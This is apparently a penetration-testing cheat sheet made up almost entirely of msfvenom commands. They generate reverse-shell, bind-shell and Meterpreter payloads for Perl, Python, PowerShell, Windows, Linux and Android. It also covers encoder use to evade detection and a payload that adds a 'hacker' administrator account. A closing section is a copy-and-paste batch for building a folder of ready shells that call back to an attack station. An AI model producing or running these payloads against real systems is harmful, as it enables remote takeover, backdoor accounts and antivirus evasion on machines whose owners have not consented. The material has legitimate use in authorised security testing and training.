 ### Script Langauge payloads

#### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
#### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

msfvenom -p python/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) > evilpython.py
```
#### powershell
```
msfvenom -p cmd/windows/reverse_powershell LHOST=(IP Address) LPORT=(Your Port) > evil3.bat
```
#### Encoders:
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
One can also use the -a to specify the architecture or the --platform



## msfvenom shells to find and replace and copy and paste quickly

create a folder in your web directory called shells-working

payload naming convention

```
OS//Comms direction//shell//port
```
find and replace the following

```
localhost = your attack station ip
```
copy and paste the following into a command shell after doing find and replace

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=localhost LPORT=600 -f exe > win86-reverse-met-600.exe

msfvenom -p windows/meterpreter/bind_tcp RHOST=localhost LPORT=601 -f exe > win86-bind-met-601.exe

msfvenom -p windows/adduser USER=hacker PASS=Passw0rd123! -f exe > win86-adduser.exe

msfvenom -p windows/shell/reverse_tcp LHOST=localhost LPORT=602 -f exe > prompt.exe

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=localhost LPORT=603 -f elf > lin86-reverse-met-603.elf

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=localhost9 LPORT=604 -f elf > lin86-bind-met-604.elf

msfvenom --platform linux --arch x86 -f elf --encoder generic/none --payload linux/x86/shell_reverse_tcp LHOST=localhost LPORT=605 > lin-unix86-term-genrev-605.elf

msfvenom --platform linux --arch x64 -f elf --encoder generic/none --payload linux/x64/shell_reverse_tcp LHOST=localhost LPORT=606 > lin-unix64-term-genrev-606.elf

msfvenom --platform linux --arch x86 -f elf --encoder generic/none --payload linux/x86/shell_bind_tcp LHOST=localhost LPORT=607 > lin-unix86-term-genbind-607.elf

msfvenom -p android/meterpreter/reverse_tcp LHOST=localhost LPORT=608 -R > android.apk
```